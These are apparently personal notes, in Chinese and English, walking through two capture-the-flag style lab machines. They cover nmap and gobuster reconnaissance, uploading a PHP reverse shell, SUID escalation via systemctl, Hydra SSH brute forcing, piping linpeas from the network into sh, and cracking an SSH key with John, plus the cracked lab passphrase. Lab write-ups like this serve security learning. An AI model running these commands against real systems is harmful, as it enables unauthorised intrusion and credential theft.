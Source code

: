 ## step of start : 
	--> 1. nmap : 
		--> 收集有關電腦的資訊
		--> sudo nmap -sS -sV -sC -v -O -sN 10.10.203.207
	--> 2. Gobuster
		--> 找可用於上傳 shell 的目錄
		--> gobuster dir -u http://10.10.203.207:3333 -w /usr/share/dirb/wordlists/common.txt
	--> 3. upload payload 
		--> 10.10.203.207:3333/internal/uploads/pentestmonkey.phtml
		--> Check valid 副檔名 : 
			--> BurpSuite -- Intruder
		
		--> Reverse Shell
			--> cat /etc/passwd
	--> 4. root 
		--> SUID => GTFOBins => systemctl
## Basic Pentesting :
	--> 找到機器暴露的服務 : nmap 
		--> sudo nmap -sS -sV -sC -v -O 10.10.50.135
		=> linux_kernel | Apache Tomcat 9.0.7
	--> 隱藏目錄
		--> gobuster dir -u http://10.10.50.135:8080 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt

	--> 暴力破解用戶名和密碼 (brute forcing )
		--> port 445 : SMB --samba服務 : 
			--> enum4linux enum4linux 10.10.50.135
				--> Enum4linux是用來列舉 Windows 和 Samba系統資訊的工具
				=> S-1-22-1-1000 Unix User\kay (Local User)             
				=> S-1-22-1-1001 Unix User\jan (Local User) 
		--> find password
			--> Hydra是個並行登入破解器，支援多種協定進行攻擊
				--> hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.50.135 ssh 
				--> 
	--> 枚舉機器以查找任何特權升級向量
		--> ssh jan@10.10.50.135 | armando
		--> linPEAS 
			=> upload to ssh 
				--> curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
				--> scp linpeas.sh jan@10.10.50.135:/dev/shm
				--> chmod +x linpeas.sh
				--> ./linpeas.sh
	
	--> 您最終獲得的密碼是什麼？ 
		--> 讓 id_rsa 檔案與 JohnTheRipper 相容
			--> python3 /usr/share/john/ssh2john.py kay_id_rsa > johncompatible.txt
		--> 破解: 	
			--> john johncompatible.txt --wordlist=/usr/share/wordlists/rockyou.txt
		--> chmod 400 kay_id_rsa 
			=> ssh 公鑰的密碼 : beeswax
